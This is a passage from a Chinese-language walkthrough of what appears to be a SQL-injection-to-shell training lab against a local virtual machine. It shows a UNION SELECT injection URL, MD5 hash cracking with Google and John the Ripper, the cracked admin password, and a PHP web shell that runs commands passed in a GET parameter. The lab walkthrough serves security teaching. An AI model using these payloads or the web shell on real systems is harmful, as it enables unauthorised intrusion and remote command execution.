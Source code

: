    ```http://192.168.56.101/cat.php?id=1 UNION SELECT 1``` 
至此，我们已经得到了用户名和经过hash后的密码，只需破解密码即可。

### 破解密码

#### 搜索引擎

在Google中直接搜索该hash值，得到结果。

![](images/googlehash.png)

#### John-The-Ripper

1. 新建一个文件shadow，将```admin:8efe310f9ab3efeae8d410a8e0166eb2``` 存入文件。

2. 使用password.lst破解，发现破解失败。

   ```
   john shadow --format=raw-md5 --wordlist=/usr/share/john/password.lst --rules
   # --format 强制使用某种类型的散列函数
   # --rules 单词表模式启用单词修改规则
   ```

![image-20181118223223164](/Users/xinke/Library/Application Support/typora-user-images/image-20181118223223164.png)

3. 使用其他字典进行破解。

   ![](images/rockyou.png)

   ```
   john shadow --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt --rules
   john shadow --show --format=raw-md5
   ```

   ![](images/john_ro.png)

### 登录

点击Admin页面，输入用户名admin，密码P4ssw0rd，登录。

![](images/log.png)



发现新链接可以上传php脚本。

```php
<?php
  system($_GET['cmd']);
?>
```
